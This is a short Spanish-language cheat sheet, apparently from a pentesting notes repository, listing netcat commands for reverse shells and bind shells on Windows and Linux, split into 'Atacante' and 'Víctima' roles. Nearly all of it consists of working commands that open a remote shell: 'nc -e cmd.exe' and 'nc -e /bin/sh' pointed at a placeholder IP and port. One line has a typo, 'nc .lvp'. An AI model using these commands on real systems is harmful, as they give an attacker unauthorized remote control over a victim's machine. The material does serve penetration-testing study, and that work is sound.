  Reverse Shell en Windows:

 Atacante: A la espera de la conexión.

```shell
nc -lvp (Puerto)
```

Victima: Se esta dando el valor de cmd.exe para indicar la Shell con la que se llegara a interactuar.

```shell
nc -nv (Direccion ip) (Puerto) -e cmd.exe
```


Reverse Shell en Linux:

Atacante:

```shell
nc .lvp (puerto)
```

Victima:

```shell
nc -nv  (Direccion ip) (Puerto)  -e /bin/(Tipo de Shell a dar)
```

En este caso podria ser zsh, bash, sh segun el equipo y entorno que se este trabajando.

Bind Shell en Windows
En este caso con la Bind Shell lo que hacemos es realizar la conexión al equipo victima desde el atacante si notan es la inversa de lo que se realizo en una Reverse Shell lo dejo a continuación los comandos para que lo tengan en cuenta.

Victima:

```shell
nc -lvp (Puerto) -e cmd.exe
```


Atacante:

```shell
nc -nv (Direccion ip)(Puerto)
```

Bind Shell en Linux:


Victima:

```shell
nc -lvp (Puerto) -e /bin/sh
```


Atacante:

```shell
nc -nv (Direccion ip)(Puerto)
```
